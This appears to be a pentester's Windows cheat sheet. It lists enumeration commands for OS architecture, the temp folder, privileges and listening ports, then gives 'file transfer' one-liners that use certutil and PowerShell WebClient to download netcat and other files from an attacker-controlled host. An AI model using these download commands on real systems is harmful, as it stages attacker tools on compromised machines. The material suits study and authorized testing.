 OS architecture 

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
```

privileges information

```cmd
whoami /priv
whoami /all
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
certutil -urlcache -split -f "http://<target ip>/nc.exe" C:\Users\<User Account>\Desktop\nc.exe
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/test.txt', '<file_name>')"
```
